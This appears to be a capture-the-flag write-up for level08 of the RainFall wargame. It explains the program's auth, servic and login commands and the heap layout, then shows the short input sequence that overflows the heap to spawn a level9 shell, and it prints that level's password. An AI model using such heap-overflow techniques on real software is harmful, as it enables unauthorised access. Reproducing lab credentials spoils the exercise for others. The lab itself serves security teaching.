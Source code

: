 # level08

The program waits for input in an infinite loop, and print some variables:

```bash
level8@RainFall:~$ ./level8 
(nil), (nil) 
dsa
(nil), (nil) 
dasd
(nil), (nil) 
das
(nil), (nil) 
```

By looking at the code, we can se that the program compare the input string with: "auth ", "reset", "servic" and "login".

In "auth " if, the program malloc the <auth> variable with 4 bytes. It checks if the input string is lower that 34, and copy it in the new malloc'ed buffer.

In "servic" if, the program malloc the <service> variable and copy the input string from the 7th bytes.

In "login" if, the program checks if the byte at is <auth> + 20 is different of 0. It opens a shell if true.

When passing "auth ", we can see that the address begin at 0x804a008:

```bash
level8@RainFall:~$ ./level8
(nil), (nil) 
auth 
0x804a008, (nil) 
```

We need so to overwrite the first byte at address 0x804a028.

When passing "servic", we can see that the second address begin at 0x804a018. Malloc allocate a minimum of 16 bytes.

So to override the byte, we simlpy need to put one byte after "servic".

We try to exploit the program:

```bash
servic 
0x804a008, 0x804a018 
service
0x804a008, 0x804a028 
login
$ whoami
level9
$ cd /home/user/level9
$ cat .pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```
